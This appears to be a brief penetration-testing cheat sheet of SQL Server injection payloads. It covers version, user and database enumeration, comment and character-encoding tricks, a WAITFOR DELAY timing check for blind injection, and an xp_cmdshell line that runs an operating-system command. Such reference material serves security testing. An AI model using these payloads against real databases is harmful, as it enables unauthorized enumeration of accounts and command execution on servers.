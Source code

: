 SQL Server Payload
=====================================

- Version 
    - ``SELECT @@version``
- Comment 
    - ``SELECT 1 -- comment``
    - ``SELECT /*comment*/1``
- Current User
    - ``SELECT user_name()``
    - ``SELECT system_user``
    - ``SELECT user``
    - ``SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID``
- List User
    - ``SELECT name FROM master..syslogins``
- Current Database
    - ``SELECT DB_NAME()``
- List Database
    - ``SELECT name FROM master..sysdatabases``
- Command
    - ``EXEC xp_cmdshell 'net user'``
- Ascii
    - ``SELECT char(0×41)``
    - ``SELECT ascii('A')``
    - ``SELECT char(65)+char(66)`` => return ``AB``
- Delay
    - ``WAITFOR DELAY '0:0:3'`` pause for 3 seconds
